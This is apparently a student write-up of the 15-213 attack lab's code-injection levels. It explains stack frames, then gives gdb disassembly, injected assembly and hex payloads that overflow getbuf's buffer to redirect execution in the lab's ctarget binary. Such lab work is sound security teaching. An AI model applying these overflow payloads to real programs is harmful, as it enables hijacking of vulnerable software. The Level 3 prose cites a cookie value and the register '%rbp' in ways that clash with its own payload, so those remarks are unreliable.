

# Part I: Code Injection Attacks

## Call stack

The primary purpose of a call stack is to store the return addresses. When a subroutine is called, the location (address) of the instruction at which the calling routine can later resume needs to be saved somewhere.

A call stack is composed of stack frames (also called activation records or activation frames). Each stack frame corresponds to a call to a subroutine which has not yet terminated with a return.

The stack frame at the top of the stack is for the currently executing routine. The stack frame usually includes at least the following items (in push order):

- the arguments (parameter values) passed to the routine (if any).
- the return address back to the routine's caller (e.g. in the DrawLine stack frame, an address into DrawSquare's code).
- space for the local variables of the routine (if any).


### Stack and frame pointers

Each function has local memory associated with it to hold incoming parameters, local variables, and (in some cases) temporary variables. This region of memory is called a stack frame and is allocated on the process’ stack. A frame pointer (the ebp register on intel x86 architectures, rbp on 64-bit architectures) contains the base address of the function’s frame. The code to access local variables within a function is generated in terms of offsets to the frame pointer. The stack pointer (the esp register on intel x86 architectures or rsp on 64-bit architectures) may change during the execution of a function as values are pushed or popped off the stack (such as pushing parameters in preparation to calling another function). The frame pointer doesn’t change throughout the function.

Here’s what happens during function (there might be slight differences among languages/architectures):

1. Push the current value of the frame pointer (ebp/rbp). This saves it so we can restore it later.
2. Move the current stack pointer to the frame pointer. This defines the start of the frame.
3. Subtract the space needed for the function’s data from the stack pointer. Remember that stacks grow from high memory to low memory. This puts the stack pointer past the space that will be used by the function so that anything pushed onto the stack now will not overwrite useful values.
4. Now execute the code for the function. References to local variables will be negative offsets to the frame pointer (e.g., "movl $123, –8(%rbp)”).
5. On exit from the function, copy the value from the frame pointer to the stack pointer (this clears up the space allocated to the stack frame for the function) and pop the old frame pointer. This is accomplished by the “leave” instruction.
6. Return from the procedure via a “ret” instruction. This pops the return value from the stack and transfers execution to that address.

## Level 1

Some Advice:

- Find the buffer size allocated by the `getbuf` function for the input string on the stack.
- Find the address of the `touch1` function.
- Construct the exploit code: fill the buffer, and then write the address of the `touch1` function on the next 8 bytes (return address).

```Shell
attack_lab/part1# gdb ctarget
...
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ctarget...
pwndbg> b getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
pwndbg> r -q
Starting program: /ctf/work/attack_lab/part1/ctarget -q
warning: Error disabling address space randomization: Operation not permitted
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
...
pwndbg> disassemble getbuf
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret
End of assembler dump.
pwndbg> disassemble touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    rsp,0x8
   0x00000000004017c4 <+4>:	mov    DWORD PTR [rip+0x202d0e],0x1        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    edi,0x4030c5
   0x00000000004017d3 <+19>:	call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    edi,0x1
   0x00000000004017dd <+29>:	call   0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    edi,0x0
   0x00000000004017e7 <+39>:	call   0x400e40 <exit@plt>
End of assembler dump.
pwndbg>
```

- From `sub rsp,0x28`, we get the buffer size is `$0x28=40`.

- From `0x00000000004017c0 <+0>:	sub rsp,0x8`, we get the address of the `touch1` function is `0x00000000004017c0`.

So, our payload is that:

```Text
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00
c0 17 40 00
00 00 00 00
```

And in the stack frame, its structure is as follows:



```Shell
attack_lab/part1# vim solution1.hex
attack_lab/part1# ./hex2raw -i solution1.hex > solution1.raw
attack_lab/part1# ./ctarget -q < solution1.raw
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
attack_lab/part1#
```

## Level 2

In `Level1`, we direct the jump after `getbuf` to another function address. The difference with `Level2` is that we need to inject a piece of code ourselves, and then redirect to it.

Where shall we put the code that needs to be injected? Of course constructing it in the `getbuf` works.

From `attack_lab/part1/cookie.txt`, we get `cookie=0x59b997fa`. Then we can construct the injection code:

```Shell
attack_lab/part1# gdb ctarget
...
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ctarget...
pwndbg> disassemble touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	sub    rsp,0x8
   0x00000000004017f0 <+4>:	mov    edx,edi
   0x00000000004017f2 <+6>:	mov    DWORD PTR [rip+0x202ce0],0x2        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    edi,DWORD PTR [rip+0x202ce2]        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    esi,0x4030e8
   0x0000000000401809 <+29>:	mov    edi,0x1
   0x000000000040180e <+34>:	mov    eax,0x0
   0x0000000000401813 <+39>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    edi,0x2
   0x000000000040181d <+49>:	call   0x401c8d <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    esi,0x403110
   0x0000000000401829 <+61>:	mov    edi,0x1
   0x000000000040182e <+66>:	mov    eax,0x0
   0x0000000000401833 <+71>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    edi,0x2
   0x000000000040183d <+81>:	call   0x401d4f <fail>
   0x0000000000401842 <+86>:	mov    edi,0x0
   0x0000000000401847 <+91>:	call   0x400e40 <exit@plt>
End of assembler dump.
pwndbg> disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret
End of assembler dump.
pwndbg> b getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
pwndbg> r -q
...
pwndbg> step
...
pwndbg> p /x $rsp
$2 = 0x5561dc78
pwndbg>
```

From `0x00000000004017f0 <+4>:	mov edx,edi`, we need to move the `cookie` value into `%rdi`, as `%rdi` is the first parameter of the function call.

From `0x00000000004017ec <+0>:	sub rsp,0x8`, we know that the address of `touch2` function is `0x00000000004017ec`.

From `$2 = 0x5561dc78`, wo get the address of `buff`, which represents the first instruction after we inject the code.

```Assembly
# solution2.s
movq    $0x59b997fa, %rdi    # 把cookie设置为第一个参数
pushq   $0x4017ec            # 将touch2的首地址压栈
ret                          # 跳转到touch2
```

```Shell
attack_lab/part1# vim solution2.s
attack_lab/part1# gcc -c solution2.s
attack_lab/part1# objdump -d solution2.o

solution2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
attack_lab/part1#
```

`48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3` is just the code instruction we want to inject. So, our payload is that:

```Text
# Remove "# ..." when you test the code
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 # exploit code
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 # characters used to fill
78 dc 61 55 00 00 00 00 # ret address
```

And in the stack frame, its structure is as follows:


```Shell
attack_lab/part1# vim solution2.hex
attack_lab/part1# ./hex2raw -i solution2.hex > solution2.raw
attack_lab/part1# ./ctarget -q < solution2.raw
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
attack_lab/part1#
```

## Level 3

In `Level2`, we inject a piece of code in `%rsp` of `getbuf`, and redirect code to it by rewritting the ret address `%rbp`.

The difference with `Level3` is that Instead of passing in a variable, we should pass in a pointer to the cookie string. And since it calls `hexmatch` in `touch3` after the stack of `getbuf` is released, data rewitten in `getbuf` might be rewitten again by `hexmatch`. So, we choose  to place the buff of `coockie` in `test`.

First, we get that `cookie=0x45374fee` in string is `34 35 33 37 34 66 65 65` and rewrite it to `$0x5561dca8` in `test` during  the code injection.

Secondly, we get that the address of `touch3` is `0x00000000004018fa`.

```Assembly
# solution3.s
movq    $0x5561dca8, %rdi    # 把指向cookie的指针设置为第一个参数
pushq   $0x4018fa            # 将touch3的首地址压栈
ret                          # 跳转到touch3
```

```Shell
attack_lab/part1# vim solution3.s
attack_lab/part1# gcc -c solution3.s
attack_lab/part1# objdump -d solution3.o

solution3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq
attack_lab/part1#
```

`48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3` is just the code instruction we want to inject. So, our payload is that:

```Text
# Remove "# ..." when you test the code
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 # exploit code
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 # characters used to fill
78 dc 61 55 00 00 00 00 # ret address
35 39 62 39 39 37 66 61 00  # cookie
```

And in the stack frame, its structure is as follows:


```Shell
attack_lab/part1# vim solution3.hex
attack_lab/part1# ./hex2raw -i solution3.hex > solution3.raw
attack_lab/part1# ./ctarget -q < solution3.raw
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
attack_lab/part1#
```